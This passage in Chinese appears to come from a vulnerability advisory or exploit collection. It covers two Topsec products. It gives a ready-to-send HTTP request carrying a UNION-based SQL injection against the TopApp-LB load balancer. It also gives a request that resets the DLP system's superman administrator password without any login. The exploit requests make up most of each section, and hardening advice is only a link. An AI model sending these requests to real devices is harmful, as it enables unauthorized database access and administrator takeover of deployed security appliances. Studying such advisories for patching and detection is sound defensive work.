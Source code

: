 ### 五、天融信TopApp-LB 负载均衡系统sql注入 exp

**漏洞描述：**

根据互联网监测发现天融信TopApp-LB V1.2.8.0#xxx 存在sql漏洞，目前已有公开EXP在互联网流传。

**影响版本：**

V1.2.8.0#xxx[2014年]

**利用EXP：**

```
POST /acc/clsf/report/datasource.php HTTP/1.1
Host: 
Connection: close
Accept: text/javascript, text/html, application/xml, text/xml, */*
X-Prototype-Version: 1.6.0.3
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ijqtopbcbmu8d70o5t3kmvgt57
Content-Type: application/x-www-form-urlencoded
Content-Length: 201

t=l&e=0&s=t&l=1&vid=1+union select 1,2,3,4,5,6,7,8,9,substr('a',1,1),11,12,13,14,15,16,17,18,19,20,21,22--+&gid=0&lmt=10&o=r_Speed&asc=false&p=8&lipf=&lipt=&ripf=&ript=&dscp=&proto=&lpf=&lpt=&rpf=&rpt=@。。 
```

**加固建议：**

目前官方已发布*关于TopAPP-LB产品旧版本存在SQL注入漏洞的说明：*https://mp.weixin.qq.com/s/5L6morcwlogurCtdhsiOcA

### 六、天融信数据防泄漏系统越权修改管理员密码

**漏洞描述：**

根据互联网监测发现天融信数据防泄漏系统(v3.1130.308p3_ DLP.1)存在越权修改管理员密码，攻击者可利用此漏洞获取管理员权限，从而登录系统进行恶意操作。

**影响版本：**

v3.1130.308p3_ DLP.1

**利用过程：**

无需登录权限,由于修改密码处未校验原密码,且`/?module=auth_user&action=mod_edit_pwd`

接口未授权访问,造成直接修改任意用户密码。:默认superman账户uid为1。

```
POST /?module=auth_user&action=mod_edit_pwd 
Cookie: username=superman;

uid=1&pd=Newpasswd&mod_pwd=1&dlp_perm=1
```

